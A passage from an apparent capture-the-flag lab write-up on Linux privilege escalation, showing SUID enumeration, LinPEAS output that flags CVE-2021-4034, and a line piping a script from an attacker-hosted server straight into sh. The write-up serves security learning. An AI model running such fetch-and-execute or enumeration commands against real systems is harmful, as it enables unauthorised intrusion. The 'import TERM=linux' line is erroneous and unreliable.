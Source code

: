 >Edit: I couldn't use `nano` correctly and would receive an error `Error opening terminal: unknown`. After some research I found that I could modify the terminal emulator to mimic a linux terminal. More information can be found [here](https://bash.cyberciti.biz/guide/$TERM_variable).
```
import TERM=linux
```

From this point I spent a lot of time trying to poke around and see what permissions the user did and didn't have. My initial thoughts had been `try-harder` was a file of interest as it was out of place but prior to modifying the terminal emulator it wasn't running correctly and I was search around for potential vectors using checklists I had found online. They can be found [here](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)and [here](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist). Additionally I had run a file scan similar to what was done in my attempt at [Vulnversity](https://github.com/dozmert/Security-Labs/blob/main/TryHackMe/Vunversity/readme.md).
```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
  -rwsr-xr-x 1 root root 59640 Mar 23  2019 /usr/bin/passwd
  -rwsr-xr-x 1 root root 44528 Mar 23  2019 /usr/bin/chsh
  -rwsr-xr-x 1 root root 149080 Jan 31  2020 /usr/bin/sudo
  -rwsr-xr-x 1 root root 37136 Mar 23  2019 /usr/bin/newgidmap
  -rwsr-xr-x 1 root root 18448 Jun 28  2019 
  /usr/bin/traceroute6.iputils
  -rwsr-xr-x 1 root root 76496 Mar 23  2019 /usr/bin/chfn
  -rwsr-xr-x 1 root root 75824 Mar 23  2019 /usr/bin/gpasswd
  -rwsr-xr-x 1 root root 37136 Mar 23  2019 /usr/bin/newuidmap
  -rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
  -rwsr-xr-x 1 root root 40344 Mar 23  2019 /usr/bin/newgrp
  -rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
  -rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
  -rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
  -rwsr-xr-x 1 root root 113528 Jul 10  2020 /usr/lib/snapd/snap-confine
  -rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
  -rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

After spending a few days going over possible entry points I was pointed towards [PEASS](https://github.com/carlospolop/PEASS-ng. A project which appears to automate privilege escalation vulnerability search. I started by downloading onto my machine and hosted it on my SimpleHTTPServer.
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220605/linpeas_linux_amd64
python3 -m http.server <ListeningPort> --directory <UploadDirectory>
```
While I could `wget` this file onto the server host I found a neat command which would run the file bash file remotely.
```bash
curl remotely
  curl <AttackerIPAddress>/linpeas.sh | sh
```
```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034 

╔══════════╣ SUID - Check easy privesc, exploits and write perms
-rwsr-xr-x 1 root root 27K Mar  5  2020 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 43K Mar  5  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8                                                                                                                 
You can write SUID file: /home/sid/try-harder
-rwsr-xr-x 1 root root 59K Mar 23  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                  
-rwsr-xr-x 1 root root 44K Mar 23  2019 /usr/bin/chsh
-rwsr-sr-x 1 daemon daemon 51K Feb 20  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
```